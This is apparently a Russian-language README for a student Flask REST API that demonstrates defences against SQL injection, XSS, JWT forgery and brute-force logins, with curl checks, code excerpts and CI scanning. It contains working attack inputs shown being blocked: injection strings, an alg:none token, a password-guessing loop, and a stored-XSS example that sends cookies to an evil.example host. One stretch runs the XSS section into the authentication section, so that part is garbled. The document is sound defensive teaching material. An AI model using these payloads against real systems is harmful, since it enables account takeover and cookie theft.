



# secure-rest-api

[](https://github.com/Goga211/secure-rest-api/actions/workflows/ci.yml?query=branch%3Amain)

REST API на Flask с защитой от типовых уязвимостей OWASP Top 10: SQL-инъекций, XSS и атак на
аутентификацию. Вход по логину и паролю (хэш bcrypt), доступ к данным по JWT. На каждый push и
pull request GitHub Actions запускает тесты, SAST (bandit) и SCA (pip-audit, OWASP
Dependency-Check).

Стек: Python 3.12, Flask 3, SQLAlchemy 2 (SQLite), pydantic 2, bcrypt, PyJWT, Flask-Limiter,
pytest, ruff.

## Запуск

Команды выполняются в Git Bash (Windows) или в терминале (Linux/macOS) и копируются как есть,
ничего править руками не нужно.

**Терминал 1: развернуть с нуля и запустить сервер.**

```bash
git clone https://github.com/Goga211/secure-rest-api.git
cd secure-rest-api
python -m venv .venv
source .venv/Scripts/activate        # Linux/macOS: source .venv/bin/activate
pip install -r requirements.txt
cp .env.example .env
sed -i "s/^JWT_SECRET=.*/JWT_SECRET=$(python -c 'import secrets; print(secrets.token_urlsafe(48))')/" .env
flask --app wsgi init-db
flask --app wsgi create-user alice --password correct-horse-battery
flask --app wsgi run
```

- `sed` записывает в `.env` случайный секрет JWT (48 байт). Без секрета приложение не
  запустится, а придумывать его нельзя: стойкость даёт случайность, а не длина.
- `create-user` создаёт пользователя для проверки. Без `--password` пароль спрашивается скрыто.
- Сервер работает в этом окне, остановить: `Ctrl+C`. Если проект уже развёрнут, повторный
  запуск это только `cd secure-rest-api`, `source .venv/Scripts/activate` и
  `flask --app wsgi run`: `cp .env.example .env` затёр бы готовый секрет.

| Переменная | По умолчанию | Описание |
|---|---|---|
| `JWT_SECRET` | нет, обязательна | секрет подписи JWT, короче 32 символов приложение не запустится |
| `DATABASE_URL` | `sqlite:///app.db` | строка подключения к БД |
| `JWT_TTL_MINUTES` | `15` | время жизни токена, от 1 до 1440 минут |
| `RATE_LIMIT_ENABLED` | `true` | лимит попыток входа |

Логин при `create-user`: 3-64 символа (латиница, цифры, `.`, `-`, `_`), пароль от 12 символов и
не длиннее 72 байт.

Тесты и сканеры локально (в папке проекта, venv активирован):

```bash
pip install -r requirements-dev.txt
pytest --cov                    # тесты, покрытие не ниже 80%
ruff check . && ruff format --check .
bandit -r app -ll               # SAST
pip-audit -r requirements.txt   # SCA
```

### Зависимости

Прямые зависимости (то, что импортирует код) перечислены в `requirements.in`. Полный список со
всеми транзитивными и точными версиями, `requirements.txt`, генерирует
[uv](https://docs.astral.sh/uv/), руками он не правится:

```bash
uv pip compile requirements.in --universal --python-version 3.12 --no-annotate -o requirements.txt
```

`--universal` даёт один файл для всех ОС, `--no-annotate` убирает строки `# via ...`, которые
Dependency-Check принимает за пакеты. Откуда взялся пакет, показывает
`uv pip tree --invert --package werkzeug`. CI перегенерирует файл и падает, если он не совпадает
с закоммиченным. Сканеры проверяют именно `requirements.txt`, то есть ровно то, что
устанавливается.

## API

| Метод и путь | Доступ | Тело запроса | Успешный ответ |
|---|---|---|---|
| `POST /auth/login` | всем, не больше 5 попыток в минуту с одного IP | `{"username": str, "password": str}` | 200, `{"access_token", "token_type": "Bearer", "expires_in": 900}` |
| `GET /api/data` | только с JWT | нет | 200, последние 100 постов |
| `POST /api/posts` | только с JWT | `{"title": str, "body": str}` | 201, созданный пост |
| `GET /health` | всем | нет | 200, `{"status": "ok"}` |

`POST /auth/login` и `GET /api/data` заданы в лабораторной. `POST /api/posts` это третий метод на
выбор: через него в базу попадает пользовательский текст, на котором видна защита от XSS.

Все ответы, включая ошибки, приходят в одном конверте `{"success", "data", "error"}`. Пост:
`{"id", "title", "body", "author", "created_at"}`, автор берётся из токена. Ограничения:
`username` до 64 символов, `password` до 128, `title` 1-120, `body` 1-5000.

| Код | Когда |
|---|---|
| 400 | тело не JSON-объект, нет полей, неверный тип или длина, лишние поля |
| 401 | неверный логин или пароль; нет заголовка `Authorization`; токен поддельный, просроченный или выдан удалённому пользователю (для `/api/*` с заголовком `WWW-Authenticate: Bearer realm="api"`) |
| 404 / 405 | неизвестный путь / неподдерживаемый метод (с заголовком `Allow`) |
| 413 | тело запроса больше 16 КБ |
| 429 | больше 5 попыток входа в минуту с одного IP |
| 500 | внутренняя ошибка: клиенту общий текст, подробности только в лог |

## Проверка через curl

Двенадцать проверок, по одной на каждую меру защиты. Сервер запущен в терминале 1 (раздел
«Запуск»). Терминал 2: новое окно в той же папке, где делали `git clone`, один раз подготовка,
дальше команды по шагам.

```bash
cd secure-rest-api
source .venv/Scripts/activate        # Linux/macOS: source .venv/bin/activate
export PYTHONIOENCODING=utf-8
B=http://127.0.0.1:5000
J='Content-Type: application/json'
alias pp='python -m json.tool --no-ensure-ascii'
```

`B` это адрес сервера, `J` заголовок JSON, `pp` форматирует ответ и показывает кириллицу (сервер
отдаёт её как `\u0422...`).

**1. Сервер работает.**

```bash
curl -s $B/health | pp
```

Ответ: `"status": "ok"`.

**2. Неверный пароль и несуществующий логин.**

```bash
curl -s -X POST $B/auth/login -H "$J" -d '{"username": "alice", "password": "wrong-password"}' | pp
curl -s -X POST $B/auth/login -H "$J" -d '{"username": "nobody", "password": "wrong-password"}' | pp
```

Оба раза 401 и `"error": "Неверный логин или пароль"`: по ответу нельзя узнать, есть ли такой
логин.

**3. Вход, получение JWT.**

```bash
R=$(curl -s -X POST $B/auth/login -H "$J" -d '{"username": "alice", "password": "correct-horse-battery"}')
echo "$R" | pp
TOKEN=$(echo "$R" | python -c "import sys, json; print(json.load(sys.stdin)['data']['access_token'])")
echo $TOKEN
```

Ответ сервера сохраняется в `R` и печатается: `access_token`, `"expires_in": 900`,
`"token_type": "Bearer"`. Токен из ответа кладётся в `TOKEN` для следующих шагов: `echo $TOKEN`
печатает строку `eyJ...`. Если она пустая, шаги 4-10 не сработают, повтори шаг 3.

**4. Что внутри токена.**

```bash
python -c "import jwt, sys; t = sys.argv[1]; print(jwt.get_unverified_header(t)); print(jwt.decode(t, options={'verify_signature': False}))" $TOKEN
```

Ответ: `{'alg': 'HS256', 'typ': 'JWT'}` и `{'sub': '1', 'iss': 'secure-rest-api', 'iat': ..., 'exp': ...}`.
Заголовок и payload не зашифрованы, токен защищает подпись.

**5. Данные без токена.**

```bash
curl -si $B/api/data
```

```
HTTP/1.1 401 UNAUTHORIZED
WWW-Authenticate: Bearer realm="api"
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'
X-Frame-Options: DENY
Referrer-Policy: no-referrer
Cache-Control: no-store
```

**6. Данные с токеном.**

```bash
curl -s $B/api/data -H "Authorization: Bearer $TOKEN" | pp
```

200, `"success": true` и список постов.

**7. XSS: HTML в посте.**

```bash
curl -s -X POST $B/api/posts -H "Authorization: Bearer $TOKEN" -H "$J" -d '{"title": "<script>alert(1)</script>", "body": "<b>bold</b>"}' | pp
```

201, `"title": "&lt;script&gt;alert(1)&lt;/script&gt;"`, `"body": "&lt;b&gt;bold&lt;/b&gt;"`.

**8. Поддельный токен.**

```bash
curl -s $B/api/data -H "Authorization: Bearer ${TOKEN%?????}AAAAA" | pp
```

401, `"error": "Недействительный или просроченный токен"`. Заменены последние 5 символов
подписи: в последнем символе подписи HS256 есть биты-заполнители, поэтому замена одного символа
не всегда меняет подпись.

**9. Атака `alg: none`: токен без подписи.**

```bash
NONE=$(python -c "import jwt; print(jwt.encode({'sub': '1', 'iss': 'secure-rest-api', 'iat': 1, 'exp': 9999999999}, None, algorithm='none'))")
echo $NONE
curl -s $B/api/data -H "Authorization: Bearer $NONE" | pp
```

Токен заканчивается точкой (подписи нет), ответ 401: сервер принимает только HS256.

**10. Mass assignment: подмена автора.**

```bash
curl -s -X POST $B/api/posts -H "Authorization: Bearer $TOKEN" -H "$J" -d '{"title": "t", "body": "b", "author": "admin"}' | pp
```

400: лишние поля запрещены, автор берётся только из токена.

**11. SQL-инъекция в логине.**

```bash
curl -s -X POST $B/auth/login -H "$J" -d "{\"username\": \"' OR '1'='1' --\", \"password\": \"x\"}" | pp
```

401, `"error": "Неверный логин или пароль"`: значение ушло в базу параметром и ищется как
обычный логин.

**12. Перебор паролей.**

```bash
for i in 1 2 3 4 5 6; do curl -s -o /dev/null -w '%{http_code} ' -X POST $B/auth/login -H "$J" -d '{"username": "alice", "password": "wrong-password"}'; done; echo
```

`401 401 401 401 401 429`: не больше 5 попыток входа в минуту с одного IP, шестая отклоняется.
Если за последнюю минуту уже были входы (шаги 2, 3, 11), 429 начнётся раньше, например
`401 401 429 429 429 429`.

Кириллицу в теле запроса из Windows лучше передавать файлом (`--data-binary @post.json`): curl в
Windows отправляет `-d` в кодировке консоли, а не в UTF-8.

## Меры защиты

Для каждой меры: от какой атаки защищает, как реализована, код и тест. В конце сводная таблица.

### 1. SQL-инъекции (OWASP A03: Injection)

**Атака.** Если запрос собирается склейкой строк, ввод пользователя становится частью SQL
(в проекте такого кода нет):

```python
query = "SELECT * FROM users WHERE username = '" + username + "'"
```

При `username = "' OR '1'='1' --"` условие всегда истинно, а `--` отрезает остаток запроса.

**Защита.** Все обращения к БД идут через ORM SQLAlchemy, SQL из строк не собирается. ORM строит
параметризованный запрос: текст с плейсхолдером `?`, а значение передаётся драйверу отдельно,
как данные, и никогда не исполняется (`app/auth/users.py`):

```python
def find_user(username: str) -> User | None:
    statement = db.select(User).filter_by(username=normalize_username(username))
    return db.session.execute(statement).scalar_one_or_none()
```

Что уходит в SQLite при попытке инъекции:

```sql
SELECT users.id, users.username, users.password_hash, users.created_at
FROM users
WHERE users.username = ?
-- параметр отдельно: "' or '1'='1' --"
```

База ищет пользователя с таким логином буквально и не находит. Посты создаются через объект
модели (`Post(title=..., body=..., author=...)`), из него ORM строит
`INSERT INTO posts (...) VALUES (?, ?, ?, ?)`.

**Тест** `tests/test_sqli.py`: `' OR '1'='1' --`, `admin'--`, `UNION SELECT` в логине и `' OR 1=1 --`
в пароле дают 401 без токена; пост `'); DROP TABLE posts; --` сохраняется как текст, таблицы на
месте.

### 2. XSS (OWASP A03: Injection)

**Атака.** Пользователь сохраняет в пост `<script>fetch('https://evil.example/?c=' + document.cookie)</script>`.
Если клиент вставит ответ API в страницу как HTML, скрипт выполнится у каждого, кто откроет
пост (хранимая XSS).

**Защита 1: экранирование на выходе.** Поля `title`, `body` и `author` перед отправкой проходят
через `markupsafe.escape`, ту же функцию, которой экранируют шаблоны Flask
(`app/api/serializers.py`):

```python
def post_to_dict(post: Post) -> dict[str, Any]:
    # Экранируем на выходе, а не на входе: в БД лежит исходный текст
    return {
        "id": post.id,
        "title": _escape_html(post.title),
        "body": _escape_html(post.body),
        "author": _escape_html(post.author.username),
        "created_at": _iso_utc(post.created_at),
    }


def _escape_html(text: str) -> str:
    return str(escape(text))
```

`escape` заменяет `<` на `&lt;`, `>` на `&gt;`, `&` на `&amp;`, `"` на `&#34;`, `'` на `&#39;`.
`<script>alert(1)</script>` приходит как `&lt;script&gt;alert(1)&lt;/script&gt;`: браузер покажет
текст и не выполнит его.

Почему на выходе, а не при записи: в БД остаётся исходный текст, а правильное экранирование
зависит от того, куда данные выводят (HTML, CSV и т.д.). При этом сам API отдаёт текст уже
экранированным для HTML, то есть рассчитан на веб-клиент: так требует задание («Санитизируйте
(экранируйте) все пользовательские данные, которые возвращаются в ответах API»). Клиенту, который
выводит текст не в HTML (мобильное приложение, CSV), придётся раскодировать `&lt;`. В реальных
проектах API обычно отдаёт сырой текст, а экранирует тот, кто выводит его в HTML (React,
шаблонизаторы; так советует OWASP XSS Prevention Cheat Sheet). Исходные данные не испорчены,
поэтому перейти на такую схему можно, поменяв только `serializers.py`.

**Защита 2: заголовки на всех ответах, включая ошибки** (`app/security.py`):

```python
SECURITY_HEADERS: dict[str, str] = {
    "X-Content-Type-Options": "nosniff",
    "Content-Security-Policy": "default-src 'none'; frame-ancestors 'none'",
    "X-Frame-Options": "DENY",
    "Referrer-Policy": "no-referrer",
    "Cache-Control": "no-store",
}
```

CSP `default-src 'none'` запрещает выполнять скрипты в контексте ответа, `nosniff` не даёт
браузеру принять JSON за HTML, `X-Frame-Options` и `frame-ancestors` запрещают встраивание в чужую
страницу, остальные два не дают утечь адресу и закэшироваться личным данным.

**Тест** `tests/test_xss.py`: `<script>alert(1)</script>` и `">`
возвращаются экранированными при создании и чтении, в сыром ответе нет `<script` и ` не больше 5 попыток в минуту с IP -> проверка тела запроса -> поиск пользователя
  -> сверка пароля с хэшем bcrypt -> выдача JWT (HS256, 15 минут)

GET /api/data, Authorization: Bearer <JWT>
  -> декоратор jwt_required: подпись, алгоритм, срок, издатель
  -> пользователь существует в БД -> эндпоинт выполняется
```

#### 3.1. Хранение паролей: bcrypt

**Атака.** Пароли открытым текстом или быстрым хэшем (MD5, SHA-256) при утечке базы получают сразу
или перебирают на видеокарте со скоростью миллиарды вариантов в секунду.

**Защита.** В БД хранится только хэш bcrypt (`app/auth/passwords.py`):

```python
BCRYPT_ROUNDS = 12
# bcrypt учитывает только первые 72 байта пароля, более длинные отклоняем явно
BCRYPT_MAX_PASSWORD_BYTES = 72


def hash_password(password: str) -> str:
    encoded = password.encode("utf-8")
    if len(encoded) > BCRYPT_MAX_PASSWORD_BYTES:
        raise PasswordTooLongError(
            f"Пароль не должен превышать {BCRYPT_MAX_PASSWORD_BYTES} байт в UTF-8"
        )
    return bcrypt.hashpw(encoded, bcrypt.gensalt(rounds=BCRYPT_ROUNDS)).decode("ascii")


def verify_password(password: str, password_hash: str) -> bool:
    encoded = password.encode("utf-8")
    if len(encoded) > BCRYPT_MAX_PASSWORD_BYTES:
        return False
    return bcrypt.checkpw(encoded, password_hash.encode("ascii"))
```

- **12 раундов** = 2^12 итераций: для пользователя незаметно, перебор в тысячи раз дороже.
- **Соль** случайная для каждого пароля и хранится внутри хэша (`$2b$12$<соль><хэш>`): одинаковые
  пароли дают разные хэши, готовые таблицы бесполезны.
- **72 байта.** bcrypt молча отбрасывает всё длиннее, поэтому такие пароли отклоняются явно.

В модели `User` есть только поле `password_hash`. Пользователь создаётся командой
`flask --app wsgi create-user <логин>`, пароль вводится скрыто, минимум 12 символов.

**Тест** `tests/test_passwords.py`: хэш начинается с `$2b$12$` и не содержит пароля, одинаковые
пароли дают разные хэши, пароль длиннее 72 байт отклоняется.

#### 3.2. Вход: перебор паролей и подбор логинов

```python
INVALID_CREDENTIALS = "Неверный логин или пароль"
LOGIN_RATE_LIMIT = "5 per minute"


@auth_bp.post("/login")
@limiter.limit(LOGIN_RATE_LIMIT)
def login() -> Response:
    # ... проверка тела запроса схемой LoginRequest (см. раздел 4)
    user = find_user(credentials.username)
    # Пароль проверяется и для несуществующего логина, чтобы время ответа не отличалось
    password_hash = user.password_hash if user else dummy_hash()
    password_ok = verify_password(credentials.password, password_hash)
    if user is None or not password_ok:
        return error(INVALID_CREDENTIALS, 401)

    issued = issue_token(
        user.id, current_app.config["JWT_SECRET"], current_app.config["JWT_TTL_MINUTES"]
    )
    return success(
        {"access_token": issued.token, "token_type": "Bearer", "expires_in": issued.expires_in}
    )
```

- **Перебор паролей:** не больше 5 попыток в минуту с одного IP (Flask-Limiter), дальше 429.
- **Подбор логинов по тексту:** один и тот же 401 «Неверный логин или пароль» для обоих случаев.
- **Подбор логинов по времени:** bcrypt занимает заметное время, и быстрый ответ выдал бы
  несуществующий логин (timing-атака). Поэтому пароль всегда сверяется, при необходимости с
  хэшем-заглушкой `dummy_hash()`.

**Тест** `tests/test_login.py` (одинаковый 401, хэш не попадает в ответ, некорректное тело даёт
400), `tests/test_rate_limit.py` (шестая попытка получает 429, другие эндпоинты не затронуты).

#### 3.3. Выдача JWT

```python
JWT_ALGORITHM = "HS256"
JWT_ISSUER = "secure-rest-api"


def issue_token(
    user_id: int, secret: str, ttl_minutes: int, now: datetime | None = None
) -> IssuedToken:
    issued_at = now or datetime.now(UTC)
    payload = {
        "sub": str(user_id),  # кому выдан
        "iss": JWT_ISSUER,  # кто выдал
        "iat": issued_at,  # когда выдан
        "exp": issued_at + timedelta(minutes=ttl_minutes),  # когда истекает
    }
    token = jwt.encode(payload, secret, algorithm=JWT_ALGORITHM)
    return IssuedToken(token=token, expires_in=ttl_minutes * 60)
```

Токен: `заголовок.payload.подпись` в Base64URL, подпись это HMAC-SHA256 на секрете `JWT_SECRET`,
который знает только сервер. Payload реального токена:

```json
{"sub": "1", "iss": "secure-rest-api", "iat": 1791814783, "exp": 1791815683}
```

Payload не шифруется, поэтому в нём только id пользователя и служебные поля. Изменить его нельзя:
подпись перестанет сходиться, а новую без секрета не посчитать. Срок 15 минут ограничивает
ущерб от кражи токена.

#### 3.4. Проверка JWT на защищённых эндпоинтах (middleware)

Каждый маршрут `/api/*` закрыт декоратором `jwt_required`, он выполняется до кода эндпоинта
(`app/auth/decorators.py`):

```python
@wraps(view)
def wrapper(*args: P.args, **kwargs: P.kwargs) -> ResponseReturnValue:
    token = _bearer_token(request.headers.get("Authorization", ""))
    if token is None:
        return error(MISSING_AUTH_MESSAGE, 401, BEARER_CHALLENGE)
    try:
        user_id = decode_token(token, current_app.config["JWT_SECRET"])
    except TokenError:
        return error(INVALID_AUTH_MESSAGE, 401, BEARER_CHALLENGE)

    # Пользователь мог быть удалён после выдачи токена
    user = db.session.get(User, user_id)
    if user is None:
        return error(INVALID_AUTH_MESSAGE, 401, BEARER_CHALLENGE)

    g.current_user = user
    return view(*args, **kwargs)
```

Сама проверка токена (`app/auth/tokens.py`):

```python
payload = jwt.decode(
    token,
    secret,
    algorithms=[JWT_ALGORITHM],  # только HS256, алгоритм из заголовка токена не используется
    issuer=JWT_ISSUER,
    options={"require": REQUIRED_CLAIMS},  # sub, iss, iat, exp обязательны
)
```

Проверяется по порядку:

1. Заголовок `Authorization: Bearer <token>` на месте.
2. Подпись верна: токен не подделан и не изменён.
3. Алгоритм строго HS256 из кода, а не из токена, поэтому атака `"alg": "none"` (токен без
   подписи) не проходит.
4. Срок `exp` не истёк, издатель `iss` равен `secure-rest-api`, все claims на месте.
5. Пользователь из `sub` есть в БД: токен удалённого пользователя не действует.

Любая ошибка даёт 401 с `WWW-Authenticate: Bearer realm="api"` (RFC 6750), без подробностей.
Автор поста берётся из `g.current_user`, а не из тела запроса.

**Почему декоратор.** В задании проверка названа middleware, то есть кодом, который выполняется до
обработчика. Во Flask это можно сделать тремя способами:

| Способ | Что закрывает | Почему выбран или нет |
|---|---|---|
| `app.before_request` | все запросы | не подходит: закрыл бы и `/auth/login`, войти было бы нельзя без исключений |
| `api_bp.before_request` | все маршруты `/api/*` | рабочий: `/health` и `/auth/login` открыты, забыть защиту на новом эндпоинте нельзя |
| декоратор `jwt_required` | маршрут, на котором стоит | **выбран**: защита видна прямо в объявлении эндпоинта |

Минус декоратора: его можно забыть на новом эндпоинте. Это закрыто тестом (OWASP A01: Broken
Access Control), который обходит все маршруты `/api/*` и требует 401 без токена
(`tests/test_api_auth_coverage.py`):

```python
def _unprotected_endpoints(app: Flask, client: FlaskClient) -> list[str]:
    """Маршруты /api/*, которые без токена отвечают не 401."""
    return [
        f"{method} {path}"
        for path, method in _api_endpoints(app)
        if client.open(path, method=method).status_code != 401
    ]


def test_every_api_endpoint_requires_token(app: Flask, client: FlaskClient) -> None:
    assert _unprotected_endpoints(app, client) == []
```

Без `@jwt_required` на `list_posts` тест падает с `assert ['GET /api/data'] == []`, и CI не
пропускает такой код.

**Тест** `tests/test_tokens.py` (чужой секрет, просроченный, изменённый payload, `alg: none`,
чужой издатель, без `exp`, мусор), `tests/test_jwt_required.py` (нет заголовка, неверный формат,
удалённый пользователь).

### 4. Проверка входных данных и mass assignment (OWASP A03, A08)

**Атака.** Лишнее поле `"author": "admin"`, чтобы написать пост от чужого имени, или неожиданные
типы и огромные строки.

**Защита.** Тело каждого запроса проверяется схемой pydantic (`app/api/schemas.py`,
`app/auth/schemas.py`):

```python
class CreatePostRequest(BaseModel):
    # strict: без неявных приведений типов; forbid: автора и прочие поля задать нельзя
    model_config = ConfigDict(strict=True, extra="forbid", frozen=True)

    title: str = Field(min_length=1, max_length=POST_TITLE_MAX_LENGTH)
    body: str = Field(min_length=1, max_length=POST_BODY_MAX_LENGTH)
```

Лишние поля (`author`, `role`, `id`) и число вместо строки дают 400, длины ограничены. Тело больше
16 КБ отклоняется с 413 ещё до разбора JSON (`MAX_CONTENT_LENGTH` в `app/__init__.py`).

**Тест** `tests/test_api_posts.py`, `tests/test_login.py`.

### 5. Ошибки без утечки деталей (OWASP A04, CWE-209)

Трейсбек в ответе показал бы пути к файлам, версии библиотек и куски кода. Поэтому все ошибки
отдаются в общем JSON-конверте, а необработанное исключение пишется в лог целиком, клиенту только
«Внутренняя ошибка сервера» (`app/errors.py`). **Тест** `tests/test_errors.py`.

### 6. Секреты и конфигурация (OWASP A02, A07)

Секрет JWT в коде или в git позволил бы любому выпускать токены от чужого имени. Поэтому секреты
только в переменных окружения (`.env` в `.gitignore`), а настройки проверяются при старте
(`app/config.py`):

```python
@dataclass(frozen=True)
class Settings:
    database_url: str
    jwt_secret: str = field(repr=False)  # секрет не попадёт в логи через repr
    jwt_ttl_minutes: int = DEFAULT_JWT_TTL_MINUTES
    rate_limit_enabled: bool = True

    def __post_init__(self) -> None:
        if len(self.jwt_secret) < MIN_JWT_SECRET_LENGTH:
            raise ConfigError(
                f"JWT_SECRET должен быть задан и содержать не менее "
                f"{MIN_JWT_SECRET_LENGTH} символов"
            )
```

Стойкость даёт случайная генерация: `secrets.token_urlsafe(48)` это 384 бита энтропии при минимуме
256 для HS256 (RFC 7518). Проверка длины только отсекает пустые и короткие значения.
**Тест** `tests/test_config.py`.

### Сводная таблица

| Угроза | OWASP 2021 | Мера | Где в коде | Тесты |
|---|---|---|---|---|
| SQL-инъекции | A03 | только ORM, значения уходят связанными параметрами | `app/auth/users.py`, `app/api/routes.py` | `test_sqli.py` |
| XSS | A03 | `markupsafe.escape` на выходе, CSP и `nosniff` | `app/api/serializers.py`, `app/security.py` | `test_xss.py` |
| Утечка паролей | A02 | bcrypt, 12 раундов, соль, отказ от паролей длиннее 72 байт | `app/auth/passwords.py` | `test_passwords.py` |
| Подделка токена | A07, A02 | JWT HS256, алгоритм жёстко, обязательные claims, издатель, 15 минут, пользователь в БД | `app/auth/tokens.py`, `app/auth/decorators.py` | `test_tokens.py`, `test_jwt_required.py` |
| Незащищённый эндпоинт | A01 | `jwt_required` на каждом `/api/*`, тест обходит все маршруты | `app/api/routes.py` | `test_api_auth_coverage.py` |
| Подбор логинов | A07 | один ответ 401, одинаковое время ответа | `app/auth/routes.py` | `test_login.py` |
| Перебор паролей | A07 | 5 попыток в минуту с IP, дальше 429 | `app/auth/routes.py` | `test_rate_limit.py` |
| Mass assignment, некорректный ввод | A03, A08 | pydantic `strict`, `extra="forbid"`, длины, 413 на тело больше 16 КБ | `app/*/schemas.py`, `app/__init__.py` | `test_api_posts.py`, `test_login.py` |
| Утечка деталей ошибок | A04 | общий текст на 500, трейсбек в лог | `app/errors.py` | `test_errors.py` |
| Кликджекинг, MIME-sniffing, кэш | A05 | security-заголовки на всех ответах | `app/security.py` | `test_security_headers.py` |
| Утечка секретов | A02, A07 | секреты из окружения, случайный `JWT_SECRET` от 32 символов | `app/config.py` | `test_config.py` |

Всего 124 теста, покрытие 100% (CI требует не меньше 80%).

## CI/CD

`.github/workflows/ci.yml` запускается на каждый push и pull request. Четыре независимых job:

| Job | Инструмент | Что проверяет | Когда падает | Артефакт |
|---|---|---|---|---|
| Тесты и линтер | uv, ruff, pytest | актуальность `requirements.txt`, стиль и ошибки кода (включая правила безопасности `S`), тесты | lock-файл устарел, замечание ruff, упавший тест, покрытие ниже 80% | `coverage` |
| SAST | bandit | исходный код `app/`: опасные вызовы, захардкоженные секреты | находка уровня medium и выше | `bandit-report` |
| SCA | pip-audit | все зависимости из `requirements.txt` по базе уязвимостей PyPI | любая известная уязвимость | `pip-audit-report` |
| SCA | OWASP Dependency-Check | те же зависимости по базе NVD | уязвимость с CVSS 7.0 и выше | `dependency-check-report` |

**Последний успешный запуск:** [успешные запуски ветки main](https://github.com/Goga211/secure-rest-api/actions/workflows/ci.yml?query=branch%3Amain+is%3Asuccess),
верхний в списке (каждый push запускает CI заново, поэтому ссылка на отфильтрованный список).
Отчёты: Actions, нужный запуск, блок Artifacts внизу страницы.

Защита самого pipeline: токен CI только на чтение и не сохраняется в `.git`
(`persist-credentials: false`), сторонний action Dependency-Check закреплён по SHA коммита,
секреты в workflow не используются, раннер зафиксирован (`ubuntu-24.04`).

### Скриншоты отчётов

[Запуск CI #30](https://github.com/Goga211/secure-rest-api/actions/runs/40289762760) (коммит
`99d3feb`): четыре job прошли, сохранено 4 артефакта.



**bandit:** 463 строки кода, замечаний уровня medium и выше нет. Одно замечание low, B105
«возможный захардкоженный пароль» на строку `"token_type": "Bearer"`: ложное срабатывание,
`Bearer` это тип токена по RFC 6750. CI падает только с medium (`-ll`), замечание остаётся в
отчёте.



**OWASP Dependency-Check:** 26 зависимостей, уязвимых 0, подавленных 0 (про подавление ниже).



**pip-audit:** 22 пакета, `No known vulnerabilities found`.

### Найдено и исправлено: CVE-2026-102598 в Werkzeug

pip-audit остановил [запуск CI #20](https://github.com/Goga211/secure-rest-api/actions/runs/38223336152)
(коммит `b133ead`), остальные job прошли:

```
Found 1 known vulnerability in 1 package
Name     Version ID              Fix Versions
-------- ------- --------------- ------------
werkzeug 3.1.8   CVE-2026-102598 3.1.9
```

Werkzeug поднят до 3.1.9 (коммит `c56e8e0`), тесты прошли без изменений кода,
[запуск CI #21](https://github.com/Goga211/secure-rest-api/actions/runs/38223765166) зелёный.
Уязвимость появилась в базе уже после того, как код был готов, и pipeline сам заблокировал
сборку. Сейчас в `requirements.in` стоит `Werkzeug>=3.1.9`, уязвимая версия не вернётся.

### Подавлено с обоснованием: CVE-2025-45770 в PyJWT

Dependency-Check останавливал CI на CVE-2025-45770 («слабое шифрование» в PyJWT 2.15.0, CVSS 7.0),
а pip-audit её не находил. CVE оспорена: длину ключа HMAC выбирает приложение, а не библиотека,
